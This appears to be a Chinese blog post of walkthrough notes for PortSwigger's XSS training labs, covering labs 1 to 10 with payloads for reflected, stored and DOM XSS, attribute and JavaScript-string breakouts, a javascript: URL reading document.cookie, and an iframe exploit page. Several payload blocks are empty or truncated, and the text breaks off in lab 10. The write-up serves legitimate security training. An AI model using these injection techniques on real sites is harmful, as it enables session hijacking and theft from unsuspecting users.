+++
title = "PortSwigger XSS Labs 通关笔记"
date = 2026-11-13T09:00:00+08:00
draft = false
tags = ["XSS", "PortSwigger", "Web安全"]
categories = ["渗透测试"]
summary = "PortSwigger Web Security Academy XSS 实验通关记录：反射型、存储型、DOM 型、模板注入、CSP 绕过与点击劫持联动。"
ShowToc = true
TocOpen = false
+++

> 环境：Burp Suite Community Edition · 靶场：PortSwigger Web Security Academy ｜ 进度：30 题完成 28 题（22、23 需 Burp Pro）

## 写在前面

这是「PortSwigger 通关」系列的 XSS 篇。XSS 的本质是让用户输入被当成 HTML 或 JavaScript 执行，难点通常不在弹窗本身，而在于上下文判断、绕过过滤，以及和其他漏洞组合。

笔记按实验顺序整理：从最基础的反射型、存储型开始，再到 DOM 型、模板注入、CSP 绕过和 AngularJS 沙箱逃逸。

## 实验清单

| # | 实验 | 状态 |
|---|------|------|
| 1 | Reflected XSS into HTML context with nothing encoded | ✅ |
| 2 | Stored XSS into HTML context with nothing encoded | ✅ |
| 3 | DOM XSS in `document.write` sink using source `location.search` | ✅ |
| 4 | DOM XSS in `innerHTML` sink using source `location.search` | ✅ |
| 5 | DOM XSS in jQuery anchor `href` attribute sink using `location.search` source | ✅ |
| 6 | DOM XSS in jQuery selector sink using a hashchange event | ✅ |
| 7 | Reflected XSS into attribute with angle brackets HTML-encoded | ✅ |
| 8 | Stored XSS into anchor `href` attribute with double quotes HTML-encoded | ✅ |
| 9 | Reflected XSS into a JavaScript string with angle brackets HTML encoded | ✅ |
| 10 | DOM XSS in `document.write` sink using source `location.search` inside a select element | ✅ |
| 11 | DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded | ✅ |
| 12 | Reflected DOM XSS | ✅ |
| 13 | Stored DOM XSS | ✅ |
| 14 | Reflected XSS into HTML context with most tags and attributes blocked | ✅ |
| 15 | Reflected XSS into HTML context with all tags blocked except custom ones | ✅ |
| 16 | Reflected XSS with some SVG markup allowed | ✅ |
| 17 | Reflected XSS in canonical link tag | ✅ |
| 18 | Reflected XSS into a JavaScript string with single quote and backslash escaped | ✅ |
| 19 | Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped | ✅ |
| 20 | Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped | ✅ |
| 21 | Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped | ✅ |
| 22 | Exploiting cross-site scripting to steal cookies | ⏸ 需 Pro |
| 23 | Exploiting cross-site scripting to capture passwords | ⏸ 需 Pro |
| 24 | Exploiting XSS to bypass CSRF defenses | ✅ |
| 25 | Reflected XSS with AngularJS sandbox escape without strings | ✅ |
| 26 | Reflected XSS with AngularJS sandbox escape and CSP | ✅ |
| 27 | Reflected XSS with event handlers and `href` attributes blocked | ✅ |
| 28 | Reflected XSS in a JavaScript URL with some characters blocked | ✅ |
| 29 | Reflected XSS protected by very strict CSP, with dangling markup attack | ✅ |
| 30 | Reflected XSS protected by CSP, with CSP bypass | ✅ |

---

## 1. Reflected XSS into HTML context with nothing encoded



最基础的反射型 XSS：页面没有过滤搜索词，直接把它写进了 HTML。

在搜索框中输入：

```
<script>alert(1)</script>
```



服务端没有做任何过滤，输入被拼接到页面里，浏览器把它当作 HTML 解析，于是执行了 `alert(1)`。





## 2. Stored XSS into HTML context with nothing encoded



这一题是存储型 XSS：评论内容会被写入页面，之后任何访问该页面的用户都会触发。



在评论中写入：

```
<script>alert(1)</script>
```

提交后，所有访问者打开页面都会执行 `alert(1)`。



## 3. DOM XSS in `document.write` sink using source `location.search`



直接在搜索框输入 `<script>alert(1)</script>` 没有效果。



查看页面源码可以发现，这里的尖括号被编码了。



结合题干，可以找到题目使用的 `document.write` 函数。



搜索词被拼接到 ` 
```

从而触发攻击。



## 4. DOM XSS in `innerHTML` sink using source `location.search`





题目通过 JavaScript 把输入写进目标 `span`。`innerHTML` 不会执行 `<script>`，所以直接写入：

```
<script>alert(1)</script>
```

不会生效。改用图片的 `onerror`：

```

```



图片加载失败后触发 `onerror`，从而执行 `alert(1)`。

## 5. DOM XSS in jQuery anchor `href` attribute sink using `location.search` source



观察题目给出的函数。



可以看到，返回链接会被替换成 GET 参数 `returnPath` 的值，因此把它改成：

```
javascript:alert(document.cookie)
```



点击 Back 后就会弹出 alert。

## 6. DOM XSS in jQuery selector sink using a hashchange event



在主页面可以找到相关函数。



这段代码会在 hash 变化时搜索匹配的文章，并控制页面滚动过去。

这一题要求把恶意页面放到服务器上，而不是只在本机验证。攻击页面用 iframe 嵌入目标网站，在 `onload` 加载完成后修改 hash 触发函数，并构造恶意的 hash 值调用 `print()`。



使用：

```
<iframe src='https://0a8700d0035e477080953a30006300cb.web-security-academy.net/' onload="this.src+='#'">
```

发送给受害者即可过关，也可以点击 View exploit 检查效果。



## 7. Reflected XSS into attribute with angle brackets HTML-encoded



这一关把尖括号转义了，需要从属性入手。在搜索栏输入：

```
<script>alert(1)</script>
```

查看网页源码：



尖括号变成了 `&lt;` 和 `&gt;`，但搜索词被放进了 `value` 属性。可以先用双引号闭合 `value`，再添加一个事件：

```
" onmouseover="alert(1)
```

拼接后变成：

```
<input type="text" placeholder="Search the blog..." name="search" value="" onmouseover="alert(1)">
```

鼠标移到输入框上就会触发。需要注意：用 `onclick` 或 `autofocus onfocus` 也能弹窗，但这题不算过关。

## 8. Stored XSS into anchor `href` attribute with double quotes HTML-encoded



这一题要求点击评论区的用户名时弹出 alert。先随便提交一条评论：



用户名链接取的是评论里的 Website 字段，因此填入 `JavaScript:alert(1)` 即可。



## 9. Reflected XSS into a JavaScript string with angle brackets HTML encoded





搜索后查看源码可以发现，搜索内容的尖括号被编码后，仍然被拼接进了 JavaScript 字符串，因此输入：

```
'; alert(1); '
```

语句会变成：

```
var searchTerms = ''; alert(1); '';
```

从而触发 alert。

## 10. DOM XSS in `document.write` sink using source `location.search` inside a select element



根据题干找到对应的函数：

